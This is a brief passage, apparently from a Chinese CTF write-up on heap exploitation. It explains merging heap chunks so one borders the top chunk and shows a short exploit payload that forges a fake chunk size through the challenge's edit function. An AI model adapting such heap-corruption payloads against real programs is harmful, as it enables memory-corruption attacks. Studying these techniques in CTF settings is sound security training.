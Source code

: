 把三四合并，让二紧邻 top chunk

[![](assets/1701612371-cb8a5b929f22e55beb78929e7ed45a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151914-953d4c68-17df-1.png)

```plain
pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
```

然后再 fake\_chunk 上设置 size 为 offset  
这里是直接写过去了，题目特点，先写到 0x602040 再 strcpy 过去，不过这个很容易就截断，所以这个题目 edit 会让人很迷

[![](assets/1701612371-3822559961a8104306c929994fa07cbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151935-a1d7a95a-17df-1.png)
